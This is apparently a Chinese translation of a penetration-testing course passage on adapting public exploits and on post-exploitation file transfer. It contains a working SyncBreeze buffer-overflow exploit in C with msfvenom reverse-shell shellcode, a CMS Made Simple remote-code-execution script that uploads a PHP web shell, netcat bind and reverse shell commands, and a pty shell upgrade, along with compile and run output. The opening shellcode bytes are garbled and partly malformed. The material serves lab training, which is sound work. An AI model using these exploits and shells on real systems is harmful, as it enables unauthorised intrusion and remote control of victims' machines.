"\xb\xd\xf7\xad\xb6\x8b\xb0\x88\x4d\x13\x52\xb4\x53\x13\x53"

"\xf\xb\xf5\x39\xef\xb8\x02\x9\x13\x24\xb\x56\x8\xa1"

"\x47\xc\xa3\x86\xc\x15\x9\xa4\xf\xd5\xb\x86\x56\xe9\x32"

"\xb\x35\x78\xd9\xb\xa9\x33\x1\x6\x14\xb\x7\x8f\x1a\x8\xd"

"\x39\xd\x5\x6\x8b\xa\x8e\xb\x8c\x24\x4\xe4\xaa\xc\x9a"

"\x8\xf\x72\x8f\xd8\xe\x79\xd3\x6\xee\x6\xd\x5e"

"\x76\x15\xc\x8\x77\xd8\x4\x6\x2d\xfd\xb\xe\x8\x9"

"\x84\x15\x5a\xf5\xd\xa\x4\x79\xe\x1\x8\x1\x57\x7"

"\x32\xcb\x95\x86\xb1\xf9\x5\x7d\x9\x8\x60\x39\x6d\x61\x19"

"\x52\x8\xb\x8e\x53\x9"
```

*列表 436 - 使用 `msfvenom` 生成符合我们环境的反向 shell 载荷*

[384] (Offensive Security, 2019). https://www.offensive-security.com/metasploit-unleashed/exploit-targets/

应用上述所有更改后，我们的利用代码现在看起来如下：

```c
#define _WINSOCK_DEPRECATED_NO_WARNINGS

#define DEFAULT_BUFLEN 512

#include <ntypes.h>

#include <stdio.h>

#include <winsock2.h>

#include <windows.h>

DWORD SendRequest(char *request, int request_size) {
```


```c
WSADATA wsa;

SOCKET s;

struct sockaddr_in server;

char recvbuf[DEFAULT_BUFLEN];

int recvbuflen = DEFAULT_BUFLEN;

int iResult;

printf("\n[>] Initialising Winsock...\n");

if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
{
    printf("[!] Failed. Error Code : %d", WSAGetLastError());
    return 1;
}
printf("[>] Initialised.\n");
if ((s = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET)
{
    printf("[!] Could not create socket : %d", WSAGetLastError());
}
printf("[>] Socket created. \n");
server.sin_addr.s_addr = inet_addr("10.11.0.22");
server.sin_family = AF_INET;
server.sin_port = htons(80);
if (connect(s, (struct sockaddr *)&server, sizeof(server)) < 0)
{
    puts("[!] Connect error");
    return 1;
}
puts("[>] Connected");
if (send(s, request, request_size, 0) < 0)
{
    puts("[!] Send failed");
    return 1;
}
puts("\n[>] Request sent\n");
closesocket(s);
return 0;
}
```

```c
void EvilRequest() {
    char request_one[] = "POST /login HTTP/1.1\r\n"
                    "Host: 10.11.0.22\r\n"
                    "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
                    "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
                    "Accept-Language: en-US,en;q=0.5\r\n"
                    "Referer: http://10.11.0.22/login\r\n"
                    "Connection: close\r\n"
                    "Content-Type: application/x-www-form-urlencoded\r\n"
                    "Content-Length: ";
    char request_two[] = "\r\n\r\nusername=";
    int initial_buffer_size = 780;
    char *padding = malloc(initial_buffer_size);
    memset(padding, 0x41, initial_buffer_size);
    memset(padding + initial_buffer_size - 1, 0x00, 1);
    unsigned char ret[] = "\x83\x0c\x09\x10"; // 0x1009eC83
    // root@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPOR T=443 EX ITCHAIN=thread -f c -e x86/shikata_ga_nai -i "\x08\x0a\xd8\x25\x26\x2b\x3d"
    unsigned char shellcode[] =
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
    "\xfb\x27\xf0\xd2\x43\xda\xd5\xd9\x74\x24\xf4\x58\x31\xc9\xdb"
    "\x52\x31\x78\x12\x03\x78\x12\x53\xcf\x7b\x30\xb6\x05\x05\xa7"
    char request_three[] = "&password=A";
    int content_length = 9 + strlen(padding) + strlen(ret) + strlen(shellcode) + strlen(request_three);
    char *content_length_string = malloc(15);
    sprintf(content_length_string, "%d", content_length);
    int buffer_length = strlen(request_one) + strlen(content_length_string) + initial_buffer_size + strlen(ret) + strlen(request_two) + strlen(shellcode) + strlen(request_three);
    char *buffer = malloc(buffer_length);
    memset(buffer, 0x00, buffer_length);
    strcpy(buffer, request_one);
    strcat(buffer, content_length_string);
    strcat(buffer, request_two);
    strcat(buffer, padding);
    strcat(buffer, ret);
    strcat(buffer, shellcode);
    strcat(buffer, request_three);
    SendRequest(buffer, strlen(buffer));
}
```

```c
int main() {
    EvilRequest();
    return 0;
}
```

*列表 437 - 在更改套接字信息、返回地址指令和载荷后的利用代码*

让我们使用 `mingw-64` 编译该利用代码，看看是否会产生任何错误：

```bash
kali@kali:~/Desktop$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lw32_32
kali@kali:~/Desktop$ ls -lah
total 372K
drwxr-xr-x 2 kali kali 4.0K Feb 24 17:14 .
drwxr-xr-x 17 kali kali 4.0K Feb 24 15:42 ..
-rw-r--r-- 1 kali kali 4.7K Feb 24 15:46 42341.c
-rwxr-xr-x 1 kali kali 355K Feb 24 17:14 syncbreeze_exploit.exe
```


*列表 438 - 使用 mingw-64 编译修改后的利用代码*

既然我们有了一个更新且编译干净的利用程序，我们就可以对其进行测试了。我们将把调试器附加到我们沙盒测试目标上的 SyncBreeze 服务，并在 JMP ESP 指令的内存地址处设置一个断点：


*图 261：在我们的 JMP ESP 地址处设置断点*

一旦在调试器中设置了断点，我们就可以让应用程序正常运行，并尝试从 Kali Linux 执行我们的利用程序。

由于该二进制文件是交叉编译以在 Windows 上运行的，我们不能简单地直接从我们的 Kali Linux 机器上运行它。为了运行这个 Windows 二进制文件，我们将使用 `wine`，它是一个兼容性层，能够在 Linux、BSD 和 macOS 等多种操作系统上运行 Windows 应用程序。

```bash
kali@kali:~/Desktop$ wine syncbreeze_exploit.exe

[>] Initialising Winsock...

[>] Initialised.

[>] Socket created.

[>] Connected

[>] Request sent
```

*列表 439 - 使用 wine 运行 Windows 利用程序*

[385] (WineHQ, 2019). https://www.winehq.org/

出乎意料的是，我们根本没有触发断点。相反，应用程序崩溃了，并且 EIP 寄存器似乎被 `0x9010090c` 覆盖。


*图 262：EIP 被我们的返回地址指令覆盖，但地址错位了一个字节*

通过分析 EIP 中存储的值（`0x9010090c`）以及发送给目标应用程序的缓冲区，我们发现我们在堆栈上覆盖返回地址的偏移量似乎错了一个字节。错误的偏移量导致 CPU 从堆栈中 POP 了一个不同的返回地址，而不是预期的 `0x10090c83`。

### 15.1.6.1 练习

- 1. 使用 `msfvenom` 生成反向 shell 载荷，同时考虑我们利用程序中的坏字符。
- 2. 用新生成的载荷替换原始载荷。
- 3. 将调试器附加到目标进程，并在返回地址指令处设置断点。
- 4. 编译利用程序并运行它。你触发了断点吗？

#### 15.1.7 更改溢出缓冲区

让我们试着理解我们的错位问题。查看我们由 "A" 字符组成的大填充缓冲区的第一部分是如何创建的，我们会注意到它从一个调用开始，使用 `malloc`，大小为 780：

```c
int initial_buffer_size = 780;

char *padding = malloc(initial_buffer_size);
```

*列表 440 - 使用 malloc 为初始缓冲区分配内存*

这个数字听起来应该很熟悉。如果您还记得，在 Windows 缓冲区溢出模块的研究中，我们确定 780 是覆盖堆栈上的返回地址并控制 EIP 寄存器所需的字节偏移量。

`malloc` 函数仅根据请求的大小分配一块内存。这个缓冲区需要正确初始化，这是在使用 `memset` 函数在调用 `malloc` 之后完成的：

```c
memset(padding, 0x41, initial_buffer_size);
```

*列表 441 - 用 "A" 字符填充初始缓冲区*

使用 `memset` 会用特定字符填充内存分配，在我们的情况下是 0x41，即 ASCII 中 "A" 字符的十六进制表示。

利用程序中的下一行代码很有趣。有一个对 `memset` 的调用，它将分配中的最后一个字节设置为 NULL 字节：

```c
memset(padding + initial_buffer_size - 1, 0x00, 1);
```

*列表 442 - 使用 memset 将最后一个字节设置为 null 终止符，将缓冲区转换为字符串*

这起初可能看起来令人困惑，然而，继续阅读代码，我们到达了创建最终缓冲区的几行。

```c
char *buffer = malloc(buffer_length);

memset(buffer, 0x00, buffer_length);

strcpy(buffer, request_one);

strcat(buffer, content_length_string);

strcat(buffer, request_two);

strcat(buffer, padding);

strcat(buffer, ret);

strcat(buffer, shellcode);

strcat(buffer, request_three);
```

*列表 443 - 为利用程序创建最终缓冲区*

代码首先使用 `malloc` 为缓冲区字符数组分配内存块，并用 NULL 字节填充数组。接下来，代码通过诸如 `strcpy` 和 `strcat` 等各种字符串操作函数复制其他变量的内容来填充缓冲区字符数组。

[386] (cplusplus, 2019), http://www.cplusplus.com/reference/cstdlib/malloc/
[387] (cplusplus, 2019), http://www.cplusplus.com/reference/cstring/memset/
[388] (cplusplus, 2019), http://www.cplusplus.com/reference/cstring/strcpy/
[389] (cplusplus, 2019), http://www.cplusplus.com/reference/cstring/strcat/


将最终缓冲区构造为一个字符串是一个非常重要的信息。C 编程语言使用[390]以空字符结尾的字符串（null-terminated strings），这意味着诸如 `strcpy` 和 `strcat` 等函数通过搜索目标字符数组中第一个 NULL 字节来确定字符串的结束位置和长度。由于我们初始填充缓冲区的分配大小为 780，通过将最后一个字节设置为 0x00（清单 442），我们最终拼接（`strcat`）了一个由 779 字节长度的“A” ASCII 字符组成的字符串。这解释了 EIP 寄存器的错位覆盖。

我们可以通过将 `initial_buffer_size` 变量定义的请求内存大小增加 1 来快速修复这个问题。

```c
int initial_buffer_size = 781;

char *padding = malloc(initial_buffer_size);

memset(padding, 0x41, initial_buffer_size);

memset(padding + initial_buffer_size - 1, 0x00, 1);
```

清单 444 - 修改填充分配大小

作为最终测试，我们将再次编译代码，在 443 端口设置 Netcat 监听器以捕获我们的反向 shell，并启动漏洞利用程序：

```bash
kali@kali:~/Desktop$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

kali@kali:~$ sudo nc -lvp 443

listening on [any] 443 ...
```

清单 445 - 编译漏洞利用程序并在 443 端口设置 Netcat 监听器

接下来，我们将运行漏洞利用程序：

```bash
kali@kali:~/Desktop$ wine syncbreeze_exploit.exe

[>] Initialising Winsock...

[>] Initialised.

[>] Socket created.

[>] Connected

[>] Request sent
```

清单 446 - 运行漏洞利用程序的最终版本

最后切换到我们的 netcat 监听器：

```bash
listening on [any] 443 ...

connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 49662

Microsoft [Version 10.11.0.4]

(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```


### 清单 447 - 在我们的 Kali Linux 机器上接收反向 shell

太好了！我们获得了一个 shell。此外，由于我们可以从 Kali Linux 运行它，这个漏洞利用程序不再需要在现场访问基于 Windows 的攻击平台。

`390` (Wikipedia, 2019), https://en.wikipedia.org/wiki/Null-terminated_string


### 15.1.7.1 练习

- 修复溢出缓冲区，使得 `EIP` 寄存器被您选择的返回地址指令覆盖。
- 安装位于 `C:\Tools\fixing_exploits` 目录下的 `ASX to MP3 Converter` 应用程序；从 `EDB391` 下载 `ASX to MP3 Converter` 的漏洞利用程序，并对其进行编辑，以便在您专用的 Windows 机器上获取 shell。

## 15.2 修复 Web 漏洞

Web 应用程序漏洞通常不会导致内存损坏。这意味着它们不受操作系统提供的保护（如 `DEP` 和 `ASLR`）的影响，并且更容易被重新利用。

### 15.2.1 注意事项和概述

即使我们在 Web 漏洞利用中可能不需要处理十六进制编码的 payload，但重要的是我们要正确阅读代码，以理解在编辑过程中必须考虑哪些事项。

在修改 Web 漏洞利用程序时，在接近代码时我们通常需要问几个关键问题：

- 它是否发起 `HTTP` 或 `HTTPS` 连接？
- 它是否访问特定的 Web 应用程序路径或路由？
- 该漏洞利用是否利用预认证漏洞？
- 如果没有，漏洞利用程序如何向 Web 应用程序进行身份验证？
- `GET` 或 `POST` 请求是如何构造以触发并利用该漏洞的？
- 它是否依赖于安装后可能已被更改的默认应用程序设置（例如应用程序的 Web 路径）？
- 诸如自签名证书等特殊情况是否会干扰漏洞利用？

此外，我们必须记住，公开的 Web 应用程序漏洞利用没有考虑到诸如 `.htaccess` 等额外保护。这主要是因为漏洞作者在开发过程中不可能知道这些保护，而且这些保护超出了漏洞利用的范围。

#### 15.2.2 选择漏洞

让我们考虑以下场景。在评估过程中，我们发现一个暴露了 `apache2` 服务器的 Linux 主机。在对 Web 服务器进行枚举后，我们发现正在 `TCP` 端口 `443` 上监听的 `CMS Made Simple` 版本 `2.2.5` 安装。该版本似乎存在远程代码执行漏洞，并且 `Exploit-DB` 上有公开的漏洞利用程序。`392`

`391` (Offensive Security, 2015), https://www.exploit-db.com/exploits/38457/
`392` (Offensive Security, 2018), https://www.exploit-db.com/exploits/44976

该漏洞是后认证的，然而，我们在枚举过程中在另一台机器上发现了有效的应用程序凭据（`admin` / `HUYfaw763`）。

#### 15.2.3 更改连接信息

当我们检查代码时，我们发现需要更改 `base_url` 变量以匹配我们的环境：

```
base_url = "http://192.168.1.10/cmsms/admin" 
```

清单 448 - 原始漏洞利用中定义的 `base_url` 变量

我们必须修改 IP 地址并将协议改为 `HTTPS`。

```
base_url = "https://10.11.0.128/admin" 
```

清单 449 - 更新为匹配我们情况的 `base_url` 变量

我们还注意到，当浏览目标网站时，我们遇到了 `SEC_ERROR_UNKNOWN_ISSUER`^393 错误。此错误表明远程主机上的证书无法通过验证。我们需要在漏洞利用代码中对此进行考虑。

具体而言，漏洞利用使用 `requests` Python 库与目标进行通信。代码在第 34、55 和 80 行进行了三次 `post` 请求：

```
. . . 
response = requests.post(url, data=data, allow_redirects=False) 
. . . 
response = requests.post(url, data=data, files=txt, cookies=cookies) 
. . . 
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False) 
. . . 
```

清单 450 - 原始漏洞利用中定义的所有三个 `post` 请求

官方文档^394 指出，如果我们设置 `verify` 参数为 `False`，SSL 证书将被忽略：

```
. . . 
response = requests.post(url, data=data, allow_redirects=False, verify=False) 
. . . 
response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False) 
. . . 
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False) 
. . . 
```

清单 451 - 修改后的 `post` 请求以忽略 SSL 验证。

^393 (Mozilla, 2019). https://support.mozilla.org/en-US/kb/error-codes-secure-websites?as=u&utm_source=product
^394 (python-requests.org, 2019). http://docs.python-requests.org/en/master/user/advanced/#ssl-cert-verification

最后，我们还需要更改原始漏洞利用中使用的凭据，以匹配在枚举过程中发现的凭据。这些分别在第 15 和 16 行的 `username` 和 `password` 变量中定义：

```
username = "admin"
password = "password"
```

*清单 452 - 原始漏洞利用中定义的 `username` 和 `password` 变量*

我们可以轻松替换这些凭据：

```
username = "admin"
password = "HUYFaw763"
```

*清单 453 - 更新为匹配我们场景的 `username` 和 `password` 变量*

注意，在这种情况下，我们不需要更新简单的 payload，因为它只执行在 `GET` 请求中以明文传递的系统命令。

在所有编辑完成后，最终的漏洞利用应该如下所示：

```
# Exploit Title: CMS Made Simple 2.2.5 authenticated Remote Code Execution
# Date: 3rd of July, 2018
# Exploit Author: Mustafa Hasan (@struktur93)
# Vendor Homepage: http://www.cmsmadesimple.org/
# Software Link: http://www.cmsmadesimple.org/downloads/cmssms/
# Version: 2.2.5
# CVE: CVE-2018-1000094
import requests
import base64
base_url = "https://10.11.0.128/admin"
upload_dir = "/uploads"
upload_url = base_url.split('/admin/')[0] + upload_dir
username = "admin"
password = "HUYFaw763"
csrf_param = "__c"
txt_filename = 'cmssmrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"
def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]
def authenticate():
    page = "/login.php"
    url = base_url + page
    data = {
        "username": username,
        "password": password,
        "loginsubmit": "Submit"
    }
```


```python
response = requests.post(url, data=data, allow_redirects=False, verify=False)

status_code = response.status_code

if status_code == 302:

    print "[+] Authenticated successfully with the supplied credentials"

    return response.cookies, parse_csrf_token(response.headers['Location'])

print "[-] Authenication failed"

return None, None
```

### 15.2.3.1 练习

- 1. 连接到你的专用 Linux 实验客户端并启动 `apache2` 服务；目标 Web 应用位于 `/var/www/https/` 目录下。
- 2. 修改原始漏洞利用代码，将 `base_url` 变量设置为你的专用 Linux 实验客户端的正确 IP 地址，并将协议设置为 HTTPS。
- 3. 熟悉 `requests` Python 库，并相应调整你的漏洞利用代码，以跳过 SSL 验证。
- 4. 编辑 `username` 和 `password` 变量，使其与我们的测试用例匹配（用户名 `"admin"`，密码 `"HUYafaw763"`）。
- 5. 尝试对 Linux 实验客户端运行漏洞利用代码，它有效吗？如果没有，请尝试解释原因。

#### 15.2.4 排查“索引超出范围”错误

检查我们的漏洞利用代码第 24 行，我们注意到它使用 `split` 方法来切分存储在传递给 `parse_csrf_token` 函数的 `location` 参数中的字符串。`split` 的 Python 文档指出，该方法使用作为第一个参数传递的可选分隔符来切分输入字符串。`split` 返回的字符串切片随后存储在一个 Python `List` 对象中，可以通过索引访问：

```python
kali@kali:-$ python

>>> mystr = "Kali-*-Linux-*-Rocks"

>>> result = mystr.split("-*-")

>>> result

['Kali', 'Linux', 'Rocks']

>>> result[1]

'Linux'

>>>
```

*列表 456 - Python 字符串 `split` 方法*

在我们的漏洞利用代码中，字符串分隔符被定义为 `csrf_param` 变量（`"__c"`）后跟等号：

```python
csrf_param = "__c"

txt_filename = 'cmsmsrce.txt'

php_filename = 'shell.php'

payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]
```

*列表 457 - 理解第 24 行的代码*

为了更好地理解 `IndexError`，我们可以在 `parse_csrf_token` 函数中，在 `return` 指令之前添加一个 `print` 语句：

```python
csrf_param = "__c"

txt_filename = 'cmsmsrce.txt'

php_filename = 'shell.php'

payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    print "[+] String that is being split: " + location
    return location.split(csrf_param + "=")[1]
```

*列表 458 - 添加 `print` 语句以查看调用 `split` 方法时的字符串*

现在漏洞利用代码会在调用 `split` 方法之前显示完整的字符串：

```bash
kali@kali:-$ python 44976_modified.py
/usr/lib/python2.7/dist-packages/urllib3/connectionpool.py:849: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
InsecureRequestWarning)
[+] Authenticated successfully with the supplied credentials
[+] String that is being split:
https://10.11.0.128/admin?_sk=f29a64ed9afcebab247864
Traceback (most recent call last):
  File "44976_modified.py", line 104, in <module>
    run()
  File "44976_modified.py", line 95, in run
    cookies,csrf_token = authenticate()
  File "44976_modified.py", line 39, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_modified.py", line 25, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```

*列表 459 - 检查 `print` 输出并注意到缺少 `csrf_param` 变量中定义的字符串*

虽然漏洞利用代码期望输入字符串包含 `__c`（如列表 458 中在 `csrf_param` 变量中定义的那样），但我们从 Web 应用程序收到的是 `_sk_`。

此时，我们并不完全理解为什么会发生这种情况。也许是漏洞利用开发者的软件版本与我们的不匹配，或者是 CMS 配置不匹配。无论如何，漏洞利用开发从来都不简单。

不过，我们可以尝试将 `csrf_param` 变量从 `__c` 更改为 `_sk_`，以匹配 CMS 响应，看看漏洞利用是否有效：

```python
csrf_param = "_sk_"

txt_filename = 'cmsmsrce.txt'

php_filename = 'shell.php'

payload = "<?php system($_GET['cmd']);?>"
```

*列表 460 - 更改 `csrf_param` 变量*

现在让我们执行修改后的漏洞利用代码：

```bash
kali@kali:~$ python 44976_modified.py
/usr/lib/python2.7/dist-packages/urllib3/connectionpool.py:849: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
InsecureRequestWarning)
[+] Authenticated successfully with the supplied credentials
[+] String that is being split: https://10.11.0.128/admin?_sk=bd c51a781f6d ecdc126
[+] Attempting to upload cmsmsrce.txt...
..
[+] Successfully uploaded  cmsmsrce.txt
[*] Attempting to copy cmsmsrce.txt to shell.php...
..
[+] File copied successfully
```


[+] Exploit succeeded, shell can be found at: https://10.11.0.128/uploads/shell.php

```
*列表 461 - 成功利用的输出*
```

错误不再显示，我们收到一条消息，告知漏洞利用已成功。虽然我们不清楚为什么需要更改 `csrf_param`

395 (W3Schools, 2019), https://www.w3schools.com/python/ref_string_split.asp
396 (Python, 2019), https://docs.python.org/3/library/stdtypes.html

将变量从 `_c` 更改为 `_sk_`，这为应对意外情况提供了绝佳机会，而这正是优秀的渗透测试人员非常擅长的。

现在，我们可以通过使用 `curl` 这样的工具附加到 php shell，并输入一个系统命令作为有效载荷（payload），来验证利用程序的有效性。

```bash
kali@kali:~$ curl -k https://10.11.0.128/uploads/shell.php?cmd=whoami

www-data
```

> 列表 462 - 通过尝试使用已上传的 php shell 执行 `whoami` 命令，来验证我们的利用是否成功。

很好。利用成功。我们获得了一个 web shell。

## 15.2.4.1 练习

- 观察运行利用程序时产生的错误。
- 尝试排查代码问题，确定错误发生的原因。
- 修改利用程序以避开错误，并在你专用的 Linux 客户端上运行它。
- 通过尝试使用远程 php shell 执行 `whoami` 命令来验证你的利用程序是否正常工作。
- 尝试使用此利用程序获取一个完全交互式的外壳。

## 15.3 总结

在本模块中，我们涵盖了一个纯栈缓冲区溢出的主要部分，该部分需要大量编辑以匹配我们的目标环境。然后，我们对代码进行了交叉编译，以便使其能在我们的 Kali 攻击平台上运行。

我们还修改了一个 web 利用程序，以展示如何利用这些类型的漏洞利用程序针对不同的目标环境进行再加工。

这些场景揭示了在参与项目中处理公开漏洞利用程序时遇到的常见障碍的解决方案。

## 16. 文件传输

术语 *后渗透阶段（post-exploitation）* 指的是攻击者在获得对目标的某种程度控制后所执行的操作。一些后渗透操作包括提升权限、将控制范围扩展到更多机器、安装后门、清理攻击痕迹、向目标机器上传文件和工具等。

在本模块中，我们将探索各种文件传输方法，这些方法在特定条件下适当使用时，可以辅助我们的评估工作。

## 16.1 注意事项与准备

本模块讨论的文件传输方法可能会危及我们评估项目的成功，因此应谨慎使用，且仅在特定条件下使用。我们将在本节讨论这些条件。

我们还将讨论一些基本准备工作，这将有助于练习，并展示和克服标准外壳在文件传输方面的一些局限性。

### 16.1.1 传输攻击工具的危险

在某些情况下，我们可能需要将攻击工具和实用程序传输到我们的目标。然而，传输这些工具可能因多种原因而具有危险性。

首先，我们的后渗透攻击工具可能会被恶意方滥用，从而使客户资源面临风险。在评估完成后记录上传内容并将其删除是*极其重要*的。

其次，杀毒软件（扫描端点文件系统以查找预定义文件签名的软件）在这一阶段对我们来说是一个巨大的烦恼。这种软件在大多数企业环境中无处不在，它会检测到我们的攻击工具，将它们隔离（使其失效），并通知系统管理员。

如果系统管理员尽职尽责，这将使我们失去宝贵的内部远程外壳，在极端情况下，甚至标志着我们评估项目的有效结束。虽然杀毒软件规避超出了本模块的范围，但我们在另一个模块中详细讨论了这一主题。

作为一个一般原则，我们应该始终尝试使用受攻陷系统上的原生工具。或者，当原生工具不足、我们确定检测到风险已最小化、或我们的需求超过检测到风险时，我们可以上传额外的工具。

#### 16.1.2 安装 Pure-FTPd

为了适应本模块的练习，让我们快速在我们的 Kali 攻击机器上安装 Pure-FTPd 服务器。如果你的 Kali 系统已经配置了 FTP 服务器，你可以跳过这些步骤。

```bash
kali@kali:~$ sudo apt update && sudo apt install pure-ftpd
```

> 列表 463 - 在 Kali 上安装 Pure-FTP

在任何客户端能够连接到我们的 FTP 服务器之前，我们需要为 Pure-FTPd 创建一个新的用户。下面的 Bash 脚本将自动为我们创建用户：

```bash
kali@kali:~$ cat ./setup-ftp.sh

#!/bin/bash

groupadd ftpgroup

useradd -g ftpgroup -d /dev/null -s /bin/nologin ftpuser

pure-pw useradd offsec -u ftpuser -d /ftphome

pure-pw mkdb

cd /etc/pure-ftpd/auth/

ln -s ../conf/PureDB 60pdb

mkdir -p /ftphome

chown -R ftpuser:ftpgroup /ftphome/

systemctl restart pure-ftpd
```

> 列表 464 - 用于在 Kali 上设置 Pure-FTP 的 Bash 脚本

我们将使脚本可执行，然后运行它，并在提示时为 `offsec` 用户输入密码“lab”：

```bash
kali@kali:~$ chmod +x setup-ftp.sh
kali@kali:~$ sudo ./setup-ftp.sh

Password:
Enter it again:
Restarting ftp server
```

> 列表 465 - 设置并启动 Kali 上的 Pure-FTP

### 16.1.3 非交互式外壳

大多数类 Netcat 工具提供非交互式外壳，这意味着需要用户输入的程序（如许多文件传输程序或 `su` 和 `sudo`）往往表现不佳，甚至根本无法工作。非交互式外壳还缺少一些有用的功能，如制表符补全和作业控制。一个例子可以帮助说明这个问题。

你希望熟悉 `ls` 命令。这个命令是*非交互式*的，因为它可以在没有用户交互的情况下完成。

相比之下，请考虑我们的 Debian 实验室客户端到我们 Kali 系统的典型 FTP 登录会话：

```bash
student@debian:~$ ftp 10.11.0.4
Connected to 10.11.0.4.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 09:07. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
Name (10.11.0.4:student): offsec
331 User offsec OK. Password required
Password:
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> bye
221-Goodbye. You uploaded 0 and downloaded 0 bytes.
221 Logout.
student@debian:~$
```

在这个会话中，我们输入用户名和密码，只有在我们输入 `bye` 命令后，该进程才会退出。这是一个*交互式*程序；它需要用户干预才能完成。

虽然问题此时可能已经很明显了，但让我们尝试通过非交互式外壳（在此情况下是 Netcat）进行 FTP 会话。

首先，假设我们已经攻陷了一个 Debian 客户端，并获得了 Netcat 绑定外壳（bind shell）的访问权限。我们将在 Debian 客户端上启动 Netcat，监听端口 4444 来模拟这种情况：

```bash
student@debian:~$ nc -lvnf 4444 -e /bin/bash
listening on [any] 4444 ...
```

从我们的 Kali 系统，我们将连接到监听的外壳，并再次尝试列表 466 中的 FTP 会话：

```bash
kali@kali:~$ nc -vn 10.11.0.128 4444
ftp 10.11.0.4
offsec
lab
bye
^C
kali@kali:~$
```


在幕后，我们确实在与 FTP 服务器交互，但我们没有在外壳中收到任何反馈。这是因为来自 FTP 会话（一个*交互式*程序）的标准输出没有在基本的绑定或反向外壳中正确重定向。这导致我们失去对外壳的控制，并被迫完全通过 `Ctrl+C` 退出。这在评估过程中可能会造成很大的麻烦。

#### 16.1.3.1 升级非交互式外壳

既然我们了解了非交互式外壳的一些局限性，让我们看看如何“升级”我们的外壳，使其更加有用。Python 解释器（通常安装在 Linux 系统上）附带一个名为 `pty` 的标准模块，该模块允许创建伪终端。通过使用此模块，我们可以从远程外壳生成一个单独的进程，并获得一个完全交互式的外壳。让我们试试。

我们将重新连接到我们的监听 Netcat 外壳，并生成我们的 `pty` 外壳：

```bash
kali@kali:~$ nc -vn 10.11.0.128 4444

(UNKNOWN) [10.11.0.128] 4444 ( ?) open

python -c 'import pty; pty.spawn("/bin/bash")'

student@debian:-$
```

在我们运行 Python 命令后，立即出现了一个熟悉的 Bash 提示符。让我们再次尝试通过 `pty` 外壳连接到我们的本地 FTP 服务器，看看它的表现如何：

```bash
student@debian:~$ ftp 10.11.0.4

ftp 10.11.0.4
Connected to 10.11.0.4.
220---------- Welcome to Pure-FTPD [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 09:16. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
Name (10.11.0.4:student): offsec
offsec
331 User offsec OK. Password required
Password:offsec
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> bye
bye
221-Goodbye. You uploaded 0 and downloaded 0 kbytes.
221 Logout.
student@debian:~$
```

*清单 470 - 在我们的升级 shell 中使用交互式程序*

这次，我们到 FTP 服务器的交互式连接成功了（清单 470），当我们退出时，返回到了我们的升级后的 Bash 提示符。该技术有效地通过传统的非交互通道提供了一个交互式 shell，这是在 Linux 上将标准非交互 shell 升级的最受欢迎的方法之一。

### 16.1.3.2 练习

*（这些练习不需要报告结果）*

- 1. 在你的 Kali 系统上启动 Pure-FTPd FTP 服务器，使用 Debian 实验虚拟机上的 FTP 客户端连接到它，并观察交互式提示符是如何工作的。
- 2. 尝试从 Netcat 反向 shell 登录到 FTP 服务器，看看会发生什么。
- 3. 研究升级非交互 shell 的替代方法。

### 16.2 使用 Windows 主机传输文件

在类 Unix 环境中，我们通常会发现操作系统预装了如 Netcat、curl 或 wget 等工具，这使得从远程机器下载文件相对简单。然而，在 Windows 机器上，这个过程通常没有那么直接。在本节中，我们将探索基于 Windows 的机器上的文件传输选项。

#### 16.2.1 非交互式 FTP 下载

Windows 操作系统附带了一个默认的 FTP 客户端，可用于文件传输。正如我们所看到的，FTP 客户端是一个交互式程序，需要输入才能完成，因此我们需要一个创造性的解决方案才能使用 FTP 进行文件传输。

`ftp` 的帮助选项（`-h`）有一些线索可能会对我们有帮助：

```
C:\Users\offsec> ftp -h
```

在运行 FTP 服务器服务（有时称为守护进程）的计算机之间传输文件。Ftp 可以交互使用。

```
FTP [-v] [-d] [-i] [-n] [-g] [-s:filename] [-a] [-A] [-x:sendbuffer] [-r:recvbuffer] [-b:asynbuffers] [-w:windowsize] [host]
```

| 选项 | 描述 |
| :--- | :--- |
| `-v` | 抑制显示远程服务器响应。 |
| `-n` | 抑制初始连接时的自动登录。 |
| `-i` | 关闭多个文件传输过程中的交互式提示。 |
| `-d` | 启用调试。 |
| `-g` | 禁用文件名通配符（参见 GLOB 命令）。 |
| `-s:filename` | 指定包含 FTP 命令的文本文件；这些命令将在 FTP 启动后自动运行。 |
| `-a` | 绑定数据连接时使用任何本地接口。 |
| `-A` | 以匿名身份登录。 |
